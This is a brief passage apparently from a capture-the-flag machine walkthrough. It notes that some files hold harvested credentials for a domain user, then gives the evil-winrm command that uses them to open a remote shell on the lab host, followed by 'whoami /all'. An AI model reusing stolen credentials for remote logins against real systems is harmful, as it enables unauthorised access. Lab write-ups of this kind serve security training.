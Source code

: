 ![image74](../resources/1985f71d3f77497c8d3ca79cd38d80db.png)

- Each of the files will hold some form of credentials

UserName : OFFICE\\**HHogan**

CredentialBlob : **\<password\>**

- Login with WinRM:

```bash
evil-winrm -i 10.129.24.92 -u hhogan -p "<password>"

```

![image75](../resources/40d4e591da90466b91cee1b418995b88.png)

```bash
whoami /all

```
